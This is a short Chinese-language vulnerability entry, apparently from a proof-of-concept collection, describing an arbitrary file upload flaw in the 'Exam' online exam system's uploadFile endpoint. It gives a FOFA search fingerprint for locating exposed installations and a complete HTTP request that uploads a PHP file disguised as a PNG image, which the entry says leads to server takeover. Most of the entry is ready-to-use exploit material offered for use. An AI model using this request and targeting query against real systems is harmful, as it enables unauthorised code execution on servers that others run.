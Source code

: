 ## Exam在线考试系统存在前台任意文件上传漏洞

Exam在线考试系统是一种现代地，全新的考试模型。它使用户可根据自身特点快速构建考试、测评、练习、竞赛、调查、分析及管理于一体的网络化考试平台，可轻松完成全员考试，问卷调查以及知识竞赛等工作，uploadFile接口存在任意文件上传漏洞，导致获取服务器权限。

## fofa

```
"app/core/styles/js/jquery.min.js"
```

## poc

```yaml
POST /index.php?document-api-fineuploader HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 198
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygfd0H3RWDeNNLaPy
Host: 127.0.0.1
Origin: http://127.0.0.1
Referer: http://127.0.0.1/index.php?document-api-fineuploader
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1

------WebKitFormBoundarye776qKJKlcGtVlH5
Content-Disposition: form-data; name="qqfile"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundarye776qKJKlcGtVlH5--
```

![image-20240708111744898](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407081117994.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/KXcBpZ5rcdnHLey--NXQfg